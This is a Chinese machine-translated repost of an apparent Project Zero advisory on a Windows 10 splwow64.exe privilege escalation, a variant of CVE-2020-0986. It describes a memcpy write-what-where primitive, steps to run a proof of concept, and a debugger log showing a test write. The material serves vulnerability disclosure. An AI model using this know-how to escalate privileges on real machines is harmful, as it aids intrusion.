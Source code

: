 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WQofdOoD19a1Q6bFYLP24g)

**Windows: splWOW64 权限提升**

平台：

Windows 10 2004 (19041.508) Windows 10 2004 (19041.508)

类。特权的提升

摘要：

在野外被利用的 CVE-2020-0986[1] 没有被修复。该漏洞仍然存在，只是利用方法不得不改变。

一个低完整性的进程可以向 splwow64.exe(中等完整性) 发送 LPC 消息，并在 splwow64 的内存空间中获得一个写什么什么的基元。攻击者通过 memcpy 调用控制目标、复制的内容和复制的字节数。目标指针计算的偏移量只约束为。

偏移量 <= 0x7FFFFFFF

偏移量 + 结构的感知大小 <= 0x7FFFFFFF

Splwow64 将 LPC 消息传递给 GdiPrinterThunk。脆弱的 memcpy 在消息 0x6D 中。

与 CVE-2020-0986 的唯一区别是，对于 CVE-2020-0986，攻击者发送的是一个指针，而现在攻击者发送的是一个偏移量。

https://securelist.com/operation-powerfall-cve-2020-0986-and-variants/98329/

**概念验证** 

附上的是一个将 0x42424242424242 写入 0x41414141 的 POC。附上 Visual Studio 项目。它必须以 x64 版本的方式构建才能工作。调试构建将无法连接到 LPC 端口。

一旦 POC 构建完成，运行以下命令将其完整性级别设置为低。

icacls splwow64_poc.exe /setintegritylevel L 完整性级别。

将 CreateDC.exe 移到与 splwow64_poc.exe 相同的目录中。CreateDC.exe 只是一个 x86 应用程序，它调用 CreateDCA 来启动 splwow64.exe。为了方便起见，我还将 CreateDC.exe 包含在项目的 x64/Release 目录下。

CreateDCA("Microsoft XPS Document Writer"，"Microsoft XPS Document Writer"，0，0)。

然后通过点击图标或从 cmd 行运行 POC。(如果你从 Visual Studio 运行，它不会找到 CreateDC.exe)：splwow64_poc.exe。

该 POC 改编自卡巴斯基发布的 CVE-2020-0986 的 POC。它两次触发了 memcpy 漏洞：先是泄露消息存储的堆地址和偏移量加到什么地方生成指针，然后再进行写什么什么地方。

Debug Log:

```
Breakpoint 0 hit
gdi32full!GdiPrinterThunk+0x68f:
00007ffb`3de8a51f e8efaf0000      call    gdi32full!memcpy (00007ffb`3de95513)
0:007> r
rax=00000000024e6810 rbx=00000000024e66c0 rcx=0000000041414141
rdx=0000000000b20200 rsi=0000000000b20088 rdi=0000000000000000
rip=00007ffb3de8a51f rsp=000000000245f760 rbp=0000000000000001
 r8=0000000000000008  r9=0000000000000020 r10=00000fff637551fd
r11=2000000000000000 r12=00007ffb1baa8fe0 r13=0000000000785560
r14=000000000072d2d0 r15=00007ffb3de60000
iopl=0         nv up ei ng nz ac po cy
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000297
gdi32full!GdiPrinterThunk+0x68f:
00007ffb`3de8a51f e8efaf0000      call    gdi32full!memcpy (00007ffb`3de95513)
0:007> dp rdx
00000000`00b20200  42424242`42424242 00000000`00000000
00000000`00b20210  00000000`00000000 00000000`00000000
00000000`00b20220  00000000`00000000 00000000`00000000
00000000`00b20230  00000000`00000000 00000000`00000000
00000000`00b20240  00040004`00000000 00000000`00000000
00000000`00b20250  00000000`00000000 00000000`00000000
00000000`00b20260  00000000`00000000 00000000`00000000
00000000`00b20270  00000000`00000000 00000000`00000000
0:007> g
(3268.2e88): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
ucrtbase!memcpy+0x8b:
00007ffb`3e3e836b 488908          mov     qword ptr [rax],rcx ds:00000000`41414141=????????????????
```

参考文献：

https://bugs.chromium.org/p/project-zero/issues/detail?id=2096

https://googleprojectzero.blogspot.com/p/rca-cve-2020-0986.html

https://securelist.com/operation-powerfall-cve-2020-0986-and-variants/98329/

https://www.anquanke.com/vul/id/2035005